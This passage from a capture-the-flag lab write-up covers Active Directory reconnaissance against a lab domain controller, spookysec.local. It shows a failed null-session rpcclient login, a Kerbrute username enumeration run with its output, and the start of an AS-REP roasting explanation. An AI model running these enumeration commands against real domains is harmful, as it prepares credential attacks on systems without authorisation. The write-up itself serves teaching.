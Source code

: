 Perfect! Everything is OK.

Now I was trying to get the usernames, so we could later perform an `AS-REP Roast` attack, but I didn't managed to find them via `rpcclient`:

```zsh
❯ rpcclient -U "" 10.10.128.202 -N
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
```

As we can see, we get an `AccessDenied` error, so that means that the `null session` is disabled on this DC.
After searching for username lists, I've found [this one](https://github.com/Sq00ky/attacktive-directory-tools/blob/master/userlist.txt). We can save this list into a file called `allUsers`. After that, we'll perform an attack with `Kerbrute` so we can see the system-valid usernames:

```zsh
❯ ./kerbrute userenum allUsers --dc dc.spookysec.local -d spookysec.local

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/30/23 - Ronnie Flathers @ropnop

2023/05/30 16:11:18 >  Using KDC(s):
2023/05/30 16:11:18 >  	dc.spookysec.local:88

2023/05/30 16:11:19 >  [+] VALID USERNAME:	james@spookysec.local
2023/05/30 16:11:20 >  [+] VALID USERNAME:	svc-admin@spookysec.local
2023/05/30 16:11:22 >  [+] VALID USERNAME:	James@spookysec.local
2023/05/30 16:11:23 >  [+] VALID USERNAME:	robin@spookysec.local
2023/05/30 16:11:30 >  [+] VALID USERNAME:	darkstar@spookysec.local
2023/05/30 16:11:40 >  [+] VALID USERNAME:	administrator@spookysec.local
2023/05/30 16:11:49 >  [+] VALID USERNAME:	backup@spookysec.local
2023/05/30 16:11:53 >  [+] VALID USERNAME:	paradox@spookysec.local
2023/05/30 16:12:20 >  [+] VALID USERNAME:	JAMES@spookysec.local
2023/05/30 16:12:32 >  [+] VALID USERNAME:	Robin@spookysec.local
2023/05/30 16:14:00 >  [+] VALID USERNAME:	Administrator@spookysec.local
2023/05/30 16:15:59 >  [+] VALID USERNAME:	Darkstar@spookysec.local
2023/05/30 16:16:35 >  [+] VALID USERNAME:	Paradox@spookysec.local
```

Ohhh nice!! We have system-valid usernames!! Let's save this usernames into a file called `users`.

## AS-REP Roast

- - -

The AS-REP Roast attack consists on a request (AS-REQ) that we send with a list of users and we receive a request (AS-REP) message. This message contains a hash of users that have `Do Not Require Kerberos Pre-Auth` enabled.
